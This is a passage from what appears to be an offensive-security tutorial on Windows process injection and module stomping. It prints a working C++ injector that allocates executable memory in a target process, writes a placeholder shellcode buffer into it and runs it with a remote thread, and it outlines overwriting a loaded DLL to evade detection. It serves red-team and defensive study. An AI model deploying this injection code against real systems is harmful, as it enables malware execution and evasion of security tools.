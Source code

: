 The main question we would like to answer is whether we really need to fall into this behavioural pattern, or
there is another way. In the following sections, we'll discuss one of the (potentially) many techniques
that fall outside this behavioural pattern, and we'll also discuss what it is, how to implement it, 
and what are the main advantages and drawbacks of this process injection technique.

## From Basic Process Injection to Module Stomping

Before digging into the technique itself, let's start again with the basics. A trivial process 
injection implementation is provided below:

```cpp
# Thanks @spotheplanet and www.ired.team
# https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

#include "Windows.h"

int main(int argc, char *argv[])
{
	unsigned char shellcode[] = "<EVIL_BUFFER>";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

    return 0;
}
```

We can easily see how this simple injector falls in the workflow described before:
* Allocate: `VirtualAllocEx`
* Write: `WriteProcessMemory`
* Execute: `CreateRemoteThread`

With module stomping, we're going one step further. The main idea behind module stomping is to leverage already
"allocated" RX data to write our payload. This memory region is namely a module (DLL) loaded in the target process.
In its trivial form, module stomping proceeds by loading a sacrificial DLL into the target process, and locates
its entry point. After that, the technique consists in overwriting the module with the desired code, then
executing it by starting a remote thread in the victim process.


[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/